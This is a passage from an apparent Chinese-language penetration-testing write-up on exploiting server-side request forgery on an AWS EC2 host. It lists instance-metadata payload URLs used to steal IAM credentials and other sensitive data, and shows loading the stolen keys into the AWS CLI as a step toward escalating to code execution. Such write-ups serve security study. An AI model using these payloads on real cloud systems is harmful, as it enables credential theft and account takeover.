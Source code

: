 这意味着我们可以发出内部请求并获取公开保存在公司 S3 存储桶中的数据。  
  
由于主机位于 AWS EC2 环境中，因此我们可以使用“http://169.254.169.254/latest/meta-data/iam/security-credentials/” payloads。  
  
检索 IAM 用户：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlvCu93YJwcRvcoiaQWB6qmnyJ6eibSzDgEoGgc1AJicxODflEAe7dpxZwaQ/640?wx_fmt=png&from=appmsg "")  
  
访问  标记内的 URL ：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlv8cCOcuOFl7GBq4iazP5IiaOvIvm1V0oN4c69t6Ykkd0NVuS5EneES0Pg/640?wx_fmt=png&from=appmsg "")  
  
太棒了！获取用户后，我们可以注入以下payloads来窃取 IAM 用户凭证：  
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_user>”
“http://169.254.169.254/latest/meta-data/iam/security-credentials/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlv4FB9FydllTkRocnFRMxorqbQS9kaIVvZT07IcYZGyQjoub2HXre4yg/640?wx_fmt=png&from=appmsg "")  
  
图像标签内的 URL 是一个 JSON 端点，当点击之后：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlvdfQSLNnpd6AVK7Mu1InVdQv3AIrucqiaCHEDjlQib6Da9QTzjH8pHsjg/640?wx_fmt=png&from=appmsg "")  
  
成功窃取用户凭证！  
  
利用以下Payloads，可以获取更多敏感信息：  
```
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/block-device-mapping/
http://169.254.169.254/latest/meta-data/security-groups
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/info
http://169.254.169.254/latest/meta-data/mac
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/signature
http://169.254.169.254/latest/dynamic/instance-identity/pkcs7
http://169.254.169.254/latest/dynamic/instance-identity/rsa2048
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlAG4ribNHGPlxfU3orWicYlvHT1z5Th1svfLpT726HyqIG2PLmmZK3yCDdEyYhtPnwWZ4svPODV7Ww/640?wx_fmt=png&from=appmsg "")  
  
在获取了用户凭证后，就可以尝试将其升级为 RCE（远程代码执行）或其它漏洞利用。  
  
比如，使用用户凭证访问 AWS：  
```
export AWS_ACCESS_KEY_ID= [Your_Access_Key]
export AWS_SECRET_ACCESS_KEY= [SecretKey]
export AWS_SESSION_TOKEN= [Token]
export AWS_DEFAULT_REGION= [Region]
```  
  
使用“get-caller-identity”命令返回有关其凭证用于调用操作的 IAM 用户或角色的详细信息：  
  
aws sts get-caller-identity  
  
